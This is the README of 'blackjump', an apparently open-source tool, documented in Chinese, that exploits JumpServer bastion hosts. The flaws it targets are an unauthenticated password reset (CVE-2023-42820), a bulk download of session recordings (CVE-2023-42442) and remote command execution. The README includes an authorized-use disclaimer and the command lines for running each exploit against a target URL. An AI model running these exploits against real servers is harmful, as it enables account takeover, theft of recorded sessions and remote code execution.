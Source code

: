 ## blackjump

[中文](https://github.com/tarimoe/blackjump/) | [English](https://github.com/tarimoe/blackjump/blob/main/README_en.md)

> 免责声明: 本工具仅面向合法授权的企业安全建设行为，例如企业内部攻防演练、漏洞验证和复测，如您需要测试本工具的可用性，请自行搭建靶机环境。
> 
> 在使用本工具进行检测时，<b>您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。请勿对非授权目标使用</b>。
> 
> 如您在使用本工具的过程中存在任何非法行为，<b>您需自行承担相应后果，我们将不承担任何法律及连带责任</b>。


JumpServer 堡垒机综合漏洞利用
- [x] 未授权任意用户密码重置 (CVE-2023-42820)
- [x] 未授权一键下载所有操作录像 (CVE-2023-42442)
- [x] 未授权任意命令执行漏洞 (RCE 2021)

## 安装
```bash
python3 -m pip install -r requirements.txt
```

## 使用指南
+ CVE-2023-42820: 如果知道目标的用户名和邮箱可以指定 `--user` 和 `--email` 参数
```bash
python3 blackjump.py reset https://vulerability
```
![img.png](img/img.png)

+ CVE-2023-42442: `output/` 目录下的 `<uuid4>.tar` 文件扔进 <u>[jumpserver播放器播放即可](https://github.com/jumpserver/VideoPlayer/releases)</u> 
```bash
python3 blackjump.py dump https://vulerability
```
![img_1.png](img/img_1.png)e

+ RCE
```shell
python3 blackjump.py rce http(s)://vulerability
```
![img.png](img/img_2.png)

+ 帮助
```bash
python3 blackjump.py {reset,dump,rce} -h
```

## 参考
1. https://github.com/Veraxy00/Jumpserver-EXP (在此基础上优化部分情况命令执行失败或获取不到资产问题)